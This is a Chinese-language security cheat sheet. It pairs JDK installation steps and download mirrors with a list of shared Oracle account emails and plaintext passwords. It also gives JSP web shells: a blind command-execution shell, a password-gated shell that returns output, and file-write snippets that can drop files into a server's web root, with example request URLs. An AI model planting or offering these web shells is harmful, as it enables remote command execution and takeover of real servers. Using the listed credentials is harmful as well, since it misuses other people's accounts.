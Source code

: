 ```yaml
---
date: 2024-10-29
title: Java/JSP环境搭建与安全相关操作全解析
authors: [SecCMD]
description: >
 全面介绍Java/JSP开发相关内容，涵盖自动化与手动安装JDK的详细步骤，包括Windows和Linux系统下的安装方法，还提供Java下载地址及特殊账号。同时深入讲解Java/JSP安全相关操作，如无回显与有回显的命令执行、文件写入及编码原理等，为Java开发者及安全从业者提供一站式知识服务。
categories: 编程开发, 基础工具
tags:
  - Java
  - JSP
  - JDK安装
  - 命令执行
  - 文件写入
  - 网络安全
  - 编程开发
---
```


# Java/JSP

### 自动化安装脚本
```
curl -o jdk-18_windows-x64_bin.exe  https://d6.injdk.cn/oraclejdk/18/jdk-18_windows-x64_bin.exe
jdk-18_windows-x64_bin.exe /s
# 静默安装完成，需要重新打开一个 CMD 窗口。
java -version 
echo %PATH%
echo %JAVA_HOME%
# 参考 Java 18 Silent Install https://silentinstallhq.com/java-18-silent-install-how-to-guide/
```

### Windows 手动安装 JDK（主要提升Win安装效率）
```
http://www.codebaoku.com/jdk/jdk-install-windows.html
1. 下载完成后双击jdk-8u271-windows-x64.exe文件。
2. 环境变量的配置 JAVA_HOME CLASSPATH PATH
```

## Linux 安装JDK （首先使用 apt yum方式）
```
http://www.codebaoku.com/jdk/jdk-install-linux.html
mkdir /usr/java/
tar -zxvf jdk-8u171-Linux-x64.tar.gz -C /usr/java/
#//环境变量在将会在 /etc/profile 文件中配置，为了防止配置错误，建议先将改文件负责进行备份。
#//备份 /etc/profile 文件
cp /etc/profile /etc/profile.bak
#//编辑 profile 文件，输入 vi /etc/prifle ，然后定位到这个文件的最后面。再按住字母 o ，开启编辑模式。
#//复制下面的内容粘贴到vi编辑器（注意 JAVA_HOME 这个路径，应该写成你刚刚解压的目录）。
export JAVA_HOME=/usr/local/java/jdk1.8.0_171
export JRE_HOME=${JAVA_HOME}/jre
export CLASSPATH=.:${JAVA_HOME}/lib:${JRE_HOME}/lib
export PATH=${JAVA_HOME}/bin:$PATH
#//让 /etc/profile 文件生效，
source /etc/profile    
#//检查是否配置成功，如果现实了版本信息，那么则证明配置成功。
javac -version
```

###  Java 下载地址
```
（0）http://www.codebaoku.com/jdk/jdk-index.html
（1）TUNA镜像 https://mirrors.tuna.tsinghua.edu.cn/AdoptOpenJDK/
（2）HUAWEI镜像 https://repo.huaweicloud.com/java/jdk/
（3）injdk https://www.injdk.cn/
```

### Oracle 共享账号 用于JDK下载
```
http://www.codebaoku.com/jdk/jdk-oracle-account.html

账号	密码
bnptrhinldfoguijh@mytrashmailer.com	#&qRfvE7rg37GhjEfDJy
sosen65433@kahase.com	SuckMyDick123!@#
erfede@yopmail.com	Bellapete!1
mqkpexeozyceyccghg@nthrl.com	weLgKcEdnc8PGua/
ttauern@trash-mail.com	nhXpiFpk3KztJ43
```

### 一、无回显的命令执行（命令执行后不会在前端页面返回数据）


```
<%Runtime.getRuntime().exec(request.getParameter("i"));%>

请求url：http://127.0.0.1/shell.jsp?i=whoami
```


### 二、有回显带密码的命令执行（命令执行后会在前端返回数据）

```
<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```



### 三、文件写入（改写目标服务器里的文件,若文件不存在则创建）

```markdown
1. ISO-8859-1输入:
new java.io.FileOutputStream(request.getParameter("file")).write(request.getParameter("content").getBytes());
请求url：http://127.0.0.1/input.jsp?file=root/test.txt&content=test

2. UTF-8输入:
new java.io.FileOutputStream(request.getParameter("file")).write(new String(request.getParameter("content").getBytes("ISO-8859-1"), "UTF-8").getBytes());
请求url：http://127.0.0.1/input.jsp?file=root/test.txt&content=test

3. Web目录写入;
new java.io.FileOutputStream(application.getRealPath("/") + "/" + request.getParameter("filename")).write(request.getParameter("content").getBytes());
请求url：http://127.0.0.1/input.jsp?file=test.txt&content=test
```


### 四、编码相关

Runtime-exec 编码原理 https://www.jianshu.com/p/ae3922db1f70

Runtime-exec 编码工具 https://www.bugku.net/runtime-exec-payloads/

Java在线运行环境 https://www.w3cschool.cn/tryrun/runcode?lang=java-openjdk

